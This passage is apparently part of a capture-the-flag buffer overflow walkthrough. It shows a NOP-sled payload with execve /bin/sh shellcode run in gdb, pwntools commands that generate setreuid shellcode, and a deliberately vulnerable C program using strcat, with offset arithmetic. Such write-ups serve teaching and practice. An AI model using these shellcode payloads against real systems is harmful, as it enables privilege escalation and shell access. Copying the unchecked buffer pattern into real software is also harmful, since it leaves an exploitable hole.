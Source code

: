 run $(python -c "print('\x90'*90 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*22 + 'B'*6)")

See where NOP sled string is located and beginning of shellcode:
`x/100x $rsp-200`
NOP Sled = 0x90909090
shellcode = 0x2f6e6962 (x\\62696e2f)
Let’s take any address between the NOP sled and the shellcode (e.g. **0x7fffffffe298**). Here is the final payload:


**setreuid**

Let’s use pwntools to generate a prefix to our shellcode to run SETREUID:

apt-get update  
apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential  
python3 -m pip install --upgrade pip  
python3 -m pip install --upgrade pwntools


pwn shellcraft -f d amd64.linux.setreuid 1002 \\x31\\xff\\x66\\xbf\\xea\\x03\\x6a\\x71\\x58\\x48\\x89\\xfe\\x0f\\x05
len('\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05')  
14

omgyoudidthissocool!!

##### Task 9

```
#include <stdio.h>
#include <stdlib.h>

void concat_arg(char *string)
{
    char buffer[154] = "doggo";
    strcat(buffer, string);
    printf("new word is %s\n", buffer);
    return 0;
}

int main(int argc, char **argv)
{
    concat_arg(argv[1]);
}
```
**offset**

The buffer is 154 bytes, but the string `doggo` (5 characters) is added. So we should begin to test from 154-5. Let’s start with 8 more bytes:
gdb -q buffer-overflow-2  
run $(python -c "print('A'*(154-5+8*2+4))")

The offset is 169 (154–5+8*2+4).
